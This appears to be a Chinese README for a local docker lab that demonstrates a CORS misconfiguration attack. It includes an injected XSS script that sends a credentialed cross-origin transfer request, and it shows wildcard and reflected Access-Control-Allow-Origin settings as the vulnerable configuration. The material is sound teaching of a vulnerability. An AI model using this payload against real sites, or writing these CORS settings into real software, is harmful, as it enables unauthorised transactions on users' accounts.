



# CORS 配置错误导致跨域攻击

## 启动环境

```bash
docker compose up
```

* http://127.0.0.1:9090 
存在跨域配置错误的网站，网站使用 Cookie 来校验用户身份
此网站有三个功能：
1. 注册用户
访问 `/login?username=admin` 即可注册并登录一个名为 `admin` 的用户，新建的用户默认有 500 余额
2. 查看余额
访问 `/view` 可查看当前用户的余额
3. 转账
已登录用户访问 `/transfer?to=guest` 可向 `guest` 用户转账 100


* http://127.0.0.1:60012
存在 XSS 漏洞的网站，攻击者可利用 XSS 漏洞在页面上注入任意代码，并诱导用户访问


## 漏洞复现
当用户登录了 `127.0.0.1:9090` 并且未退出，攻击者可以在 `127.0.0.1:60012` 上注入这样一段代码
```javascript
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:9090/transfer");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.withCredentials = true;
  xhr.send(JSON.stringify({to:"guest"}));
</script>
```
当用户访问 `127.0.0.1:60012` 的时候，这段代码将向`127.0.0.1:9090`发送一个跨域的转账请求。
如果 `127.0.0.1:9090` 存在错误的跨域配置，网站将遭受跨域请求攻击。

常见的错误跨域配置：
```javascript
// 允许所有跨域访问
res.setHeader("Access-Control-Allow-Origin", "*")
// 同样允许所有跨域访问，但是浏览器端不容易观察到
// 可以使用扫描器扫描
res.setHeader("Access-Control-Allow-Origin", req.header("origin"))
```

发送跨域请求时会先发送一个 `Preflight` 请求进行检查，会在 `Origin` 头中携带当前域的信息，可以看到反射型跨域配置直接返回了 `Origin` 头的内容。


跨域检查通过后成功发起转账请求


查看 guest 用户账户发现多了 100 元
